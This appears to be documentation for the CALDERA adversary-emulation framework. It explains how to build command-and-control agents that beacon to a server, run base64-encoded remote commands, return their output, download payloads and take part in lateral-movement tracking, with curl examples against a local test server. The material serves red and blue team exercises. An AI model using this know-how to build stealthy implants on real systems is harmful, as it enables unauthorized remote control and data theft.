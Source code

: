 # How to Build Agents

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. 

You can extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Understanding contacts

Agents are processes which are deployed on compromised hosts and connect with the C2 server periodically for instructions.
An agent connects to the server through a *contact*, which is a specific connection point on the server.

Each contact is defined in an independent Python module and is registered with the contact_svc when the server starts.

There are currently several built-in contacts available: http, tcp, udp and websocket. 

## Building an agent: HTTP contact

Start by getting a feel for the HTTP endpoint, which are located in the contacts/contact_http.py module.
```
POST  /beacon 
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

> If you don't include a platform and executors then the server will never provide instructions to the agent, as it 
won't know which ones are valid to send. 

* **server**: The location (IP or FQDN) of the C2 server  
* **platform**: The operating system
* **host**: The hostname of the machine
* **group**: Either red or blue. This determines if your agent will be used as a red or blue agent.
* **paw**: The current unique identifier for the agent, either initially generated by the agent itself or provided by the C2 on initial beacon.
* **username**: The username running the agent
* **architecture**: The architecture of the host
* **executors**: A list of executors allowed on the host
* **privilege**: The privilege level of the agent process, either User or Elevated
* **pid**: The process identifier of the agent
* **ppid**: The process identifier of the agent's parent process
* **location**: The location of the agent on disk
* **exe_name**: The name of the agent binary file
* **proxy_receivers**: a dict (key: string, value: list of strings) that maps a peer-to-peer proxy protocol name to a list of addresses that the agent is listening on for peer-to-peer client requests.
* **deadman_enabled**: a boolean that tells the C2 server whether or not this agent supports deadman abilities. If this value is not provided, the server assumes that the agent does not support deadman abilities.

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of seconds (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[...]"}
```

If you get a malformed base64 error, that means the operating system you are using is adding an empty space to the 
profile variable. You can prove this by 
```
echo $profile
```

To resolve this error, simply change the line to (note the only difference is '-w 0'):
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64 -w 0)
```

> The paw property returned back from the server represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Now it's time to execute the instructions. 

Looking at the previous response, you can see each instruction contains:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the response back to the /beacon endpoint. You should pause after running each instruction, using the sleep time provided inside the instruction.
```
data=$(echo '{"paw":"$paw","results":[{"id":$id, "output":$output, "status": $status, "pid":$pid}]}' | base64)
curl -s -X POST -d $data localhost:8888/beacon
sleep $instruction_sleep
```

The POST details inside the result are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of seconds to allow a dead beacon before killing the agent. 

## Lateral Movement Tracking

Additionally, you may want to take advantage of CALDERA's lateral movement tracking capabilities. CALDERA's current 
implementation for tracking lateral movement depends on passing the ID of the Link spawning the agent as 
an argument to the agent's spawn command and upon the agent's check in, for this Link ID to be returned as part of the
agent's profile. The following section explains how lateral movement tracking has been enabled for the default agent,
54ndc47.  

### 54ndc47

An example 54ndc47 spawn command has been copied from the (Service Creation ability)[https://github.com/mitre/stockpile/blob/master/data/abilities/execution/95727b87-175c-4a69-8c7a-a5d82746a753.yml]
and included below for reference:
```
C:\Users\Public\s4ndc4t.exe -server #{server} -originLinkID #{origin_link_id}
```
If the CALDERA server is running on `http://192.168.0.1:8888` and the ID of the Link with the spawn command is `123456`,
the populated command will appear as:
```
C:\Users\Public\s4ndc4t.exe -server http://192.168.0.1:8888 -originLinkID 123456
```
The 54ndc47 agent stores the value of this global variable in its profile, which is then returned to the CALDERA server
upon first check-in as a key\value pair `origin_link_id : 123456` in the JSON dictionary. The CALDERA server will 
automatically store this pair when creating the Agent object and use it when generating the Attack Path graph in the
Debrief plugin.

**NOTE: The `origin_link_id` key is optional and not required for the CALDERA server to register and use new agents as
 expected. It is only required to take advantage of the lateral movement tracking in the Debrief plugin.**  